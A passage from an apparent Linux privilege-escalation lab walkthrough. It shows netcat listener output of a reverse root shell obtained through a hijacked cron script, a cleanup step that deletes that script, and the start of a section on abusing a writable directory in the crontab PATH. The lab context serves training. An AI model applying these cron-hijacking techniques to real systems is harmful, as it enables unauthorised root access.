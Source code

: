 **Sample Output:**

```bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.51.207.
Ncat: Connection from 10.10.51.207:47436.
bash: no job control in this shell
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**Explanation:**  
Once the cron job executes the modified `overwrite.sh`, a connection will be made to your listener, and you will obtain a root shell.

### Cleanup

After confirming root access, exit the shell and remove the malicious code from `overwrite.sh`:

```bash
rm /usr/local/bin/overwrite.sh
exit
```

**No Answer Needed**

## Cron Jobs - PATH Environment Variable

### Step 1: Examine the PATH Variable in the Crontab

View the contents of the system-wide crontab to inspect the PATH environment variable:

```bash
cat /etc/crontab
```

**Sample Output:**

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
